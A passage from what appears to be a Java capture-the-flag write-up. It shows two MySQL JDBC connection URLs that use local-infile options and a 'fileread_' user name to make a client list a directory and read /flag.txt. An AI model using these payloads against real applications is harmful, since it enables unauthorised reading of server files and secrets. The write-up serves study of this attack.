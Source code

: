 ```java  
mysql://127.0.0.1:3306/test?user=fileread_file:///.&amp;ALLOWLOADLOCALINFILE=true&amp;maxAllowedPacket=65536&amp;allowUrlInLocalInfile=true#  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171522126.png)
读取文件  
```java  
mysql://127.0.0.1:3306/test?user=fileread_file:///flag.txt&amp;ALLOWLOADLOCALINFILE=true&amp;maxAllowedPacket=65536&amp;allowUrlInLocalInfile=true#  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171523344.png)
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-ctf1/  


